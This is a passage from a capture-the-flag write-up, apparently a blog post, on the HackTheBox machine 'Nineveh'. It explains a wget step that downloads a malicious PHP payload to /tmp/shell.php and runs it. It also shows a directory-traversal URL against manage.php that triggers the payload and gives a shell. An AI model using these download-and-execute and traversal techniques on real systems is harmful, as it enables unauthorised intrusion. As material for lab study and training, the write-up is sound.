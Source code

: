 <img src="/assets/img/blog/htb-nineveh/htb-nineveh-11.png">

`wget - downloads the the main file on the target machine`

`-O /tmp/shell.php - converts the text file into php so we can execute it and saves it inside /tmp folder`

`;php /tmp/shell.php - runs the php file with our malicious payload inside`

<div class="notice--info">
  <h4>Note:</h4>
  <p>Make sure you use <b>-O</b> (capital) because <b>-o</b> has different output which won't work!</p>
</div>
    
To activate our php script that downloads the malicious file, an HTTP request is needed. How would we do such thing though? Remember the previous dashboard we found on port 80? Look at the url after clicking "Notes":

<img src="/assets/img/blog/htb-nineveh/htb-nineveh-12.png">

It seems innocent but I immediately noticed a possible directory traversal vulnerability which indeed worked. After accessing `10.10.10.43/department/manage.php?notes=files/ninevehNotes.php/../../../../../../var/tmp/shell.php` the php got activated and we got a shell!   

<img src="/assets/img/blog/htb-nineveh/htb-nineveh-13.png">
